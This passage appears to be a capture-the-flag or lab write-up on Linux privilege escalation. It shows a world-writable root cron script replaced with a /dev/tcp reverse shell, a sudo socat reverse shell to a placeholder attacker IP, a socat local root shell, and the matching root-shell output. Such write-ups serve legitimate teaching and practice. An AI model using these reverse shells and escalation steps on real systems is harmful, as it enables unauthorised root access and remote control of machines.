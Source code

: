 #### **PRIVILEGE ESCALATION** - via crontab `wwwdata -> root`

```
*  *    * * *   root    /var/backups/script.sh
```

- The following script is ran by `root` via `crontab`. However, we have full permissions on this file.

```
-rwxrwxrwx 1 root root 113 Dec 29 00:51 /var/backups/script.sh
```

- I replaced the content of the script with a simple bash reverse shell.

```
#!/bin/bash
sh -i 5<> /dev/tcp/ip/3133 0<&5 1>&5 2>&5
```

```
Listening on 0.0.0.0 3133
Connection received on 10.10.7.178 40172
sh: 0: can't access tty; job control turned off
# whoami
root
```

##### **PRIVILEGE ESCALATION** - via SOCAT SUID `elyana -> root`

- I've used `find / -type f -perm -04000 -ls 2>/dev/null` to list all files with the SUID bit set.

```
150297    392 -rwsr-sr-x   1 root     root         400624 Apr  4  2018 /usr/bin/socat
```

- SOCAT is not one of the regular outputs of this command, so I've investigated it further.

- I also noticed that socat can be run as sudo by `elyana` without the need of a password.

- I started the following socat listener on my side: ```socat file:`tty`,raw,echo=0 tcp-listen:12345```

```
sudo /usr/bin/socat	tcp-connect:IP:12345 exec:/bin/sh,pty,stderr,setsid,sigint,sane
```

```
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

##### **PRIVILEGE ESCALATION** - via SOCAT (another way) `elyana -> root`

- Since we can run socat as sudo, we can use socat to spawn a root shell.

```
bash-4.4$ sudo /usr/bin/socat stdin exec:/bin/sh
whoami
root
```
